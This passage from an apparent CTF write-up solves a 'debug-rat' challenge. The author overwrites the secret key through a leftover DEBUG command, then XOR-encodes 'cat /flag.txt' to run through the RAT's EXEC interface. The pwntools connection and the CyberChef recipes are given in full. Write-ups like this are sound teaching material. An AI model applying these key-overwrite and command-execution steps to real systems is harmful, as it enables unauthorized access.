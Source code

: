 to test on locally which never timed me out.

So from now on I test on [debug_rat_patch](./debug_rat_patch).

# Now lets get the flag

First I connect using python3 cli:

```python
from pwn import *
io = remote("helsectf2024-2da207d37b091b1b4dff-debug-rat.chals.io", 443, ssl=True)
io.interactive()
```

Then I change the key to something I can control:

```
Sofadyr RAT v0002000100040003-debug

HELP: LS CAT EXEC

> DEBUG XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
TODO: remove DEBUG interface to prevent SECRET key overwrite

OK SECRET overwrite
> 
```

Using that and knowing that it is XOR'ed with the key `HELSECTF_IS_SO_MUCH_FUN\x00` I can now create a hex key which I can use to encode the EXEC commands. Using [CyberChef](https://gchq.github.io/CyberChef/#recipe=XOR(%7B'option':'Hex','string':'48454c53454354465f49535f534f5f4d5543485f46554e00'%7D,'Standard',false)To_Hex('Space',0)Remove_whitespace(true,true,true,true,true,false)&input=WFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFg) I get this key: `101d140b1d1b0c1e07110b070b1707150d1b10071e0d1658101d140b1d1b0c1e`

Then I can create a command using that in [Cyberchef](https://gchq.github.io/CyberChef/#recipe=Find_/_Replace(%7B'option':'Regex','string':'%5E'%7D,'HELSECTF_IS_SO_MUCH_FUN%5C%5Cx00',true,true,true,false)XOR(%7B'option':'Hex','string':'101d140b1d1b0c1e07110b070b1707150d1b10071e0d1658101d140b1d1b0c1e'%7D,'Standard',false)To_Base64('A-Za-z0-9%2B/%3D')&input=Y2F0IC9mbGFnLnR4dA)

Remember the command has to start with the magic string `HELSECTF_IS_SO_MUCH_FUN\x00` and then the command.

That gives me this: `WFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYc3xgKzJ9YH93M2BzaQ==` which sent through EXEC gives me a base64 string back:

```
> EXEC WFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYc3xgKzJ9YH93M2BzaQ==
EXEC result:
eHh4eHh4eHh8YzhqblplcH9EXmJqb2MrT3xab0JZbX17UmZie3JvezguNHo=
```

Using [CyberChef](https://gchq.github.io/CyberChef/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true,false)XOR(%7B'option':'Hex','string':'101d140b1d1b0c1e07110b070b1707150d1b10071e0d1658101d140b1d1b0c1e'%7D,'Standard',false)&input=ZUhoNGVIaDRlSGg4WXpocWJscGxjSDlFWG1KcWIyTXJUM3hhYjBKWmJYMTdVbVppZTNKdmV6Z3VOSG89) with that gives me the flag!

